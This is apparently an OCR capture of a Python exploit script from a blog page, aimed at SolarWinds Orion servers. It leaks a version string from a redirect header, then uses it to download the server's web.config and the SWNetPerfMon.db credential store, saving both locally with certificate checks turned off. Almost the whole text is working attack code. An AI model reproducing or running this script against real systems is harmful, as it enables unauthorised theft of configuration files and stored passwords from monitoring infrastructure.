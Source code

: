 # we don't verify because of self-signed instances 
# not really required but doesn't hurt either. 
leakVersion = requests.get(target+"/Orion/invalid.aspx.js" ,verify=False)  

if(leakVersion.headers["location"]):
    print("[+] Got location header")
    index = leakVersion.headers["location"].index(".i18n.ashx")
    leakedVersion = (leakVersion.headers["location"][index:])
    if (leakedVersion.__contains__("v=")):
        print ("[+] Version seems valid")
    else:
        print("[-] Invalid version")
        exit(-1)
else:
    print("[-] Can't get a valid version")
    exit(-1)

print("[*] Trying to leak web.config file ")
#print(target+"/web.config"+leakedVersion)
leakedConfig = requests.get(target+"/web.config"+leakedVersion, verify=False)
#print(leakedConfig.status_code)

if (leakedConfig.status_code == 200) and len(leakedConfig.text) > 1 :
    print("[+] Target is vulnerable Got the web.config file ")
    outputFile = target.replace("https://","").replace("http://","")+"_web.config"
    configFile = open(outputFile,"w")
    configFile.write(leakedConfig.text)
    configFile.close() 
    print("[+] web.config written to : " + outputFile )
else:
    print("[-] Failed to download web.config target is not vulnerable")
    exit(-1)

 
print("[*] Trying to leak SWNetPerfMon.db file (works only on older versions of orion) ")
# https://support.solarwinds.com/SuccessCenter/s/article/Passwords-that-Orion-stores-locally-on-the-server?language=en_US
# C:\inetpub\SolarWinds\SWNetPerfMon.db
# C:\Program Files (x86)\SolarWinds\Orion\SWNetPerfMon.db

leakedDB = requests.get(target+"/SWNetPerfMon.db"+leakedVersion, verify=False)

if (leakedDB.status_code == 200) and len(leakedDB.text) > 1:
    print("[+] Target is vulnerable Got the SWNetPerfMon.db file ")
   
    outputFile = target.replace("https://","").replace("http://","")+"_SWNetPerfMon.db"
    configFile = open(outputFile,"w")
    configFile.write(leakedDB.text)
    configFile.close() 
    # encrypted ? https://www.atredis.com/blog/2018/10/24/fun-with-the-solarwinds-orion-platform
    print("[+] SWNetPerfMon.db written to : " + outputFile )
else:
    print("[-] Failed to download SWNetPerfMon.db target is on newer version")
    exit(-1)

{% endhighlight %}
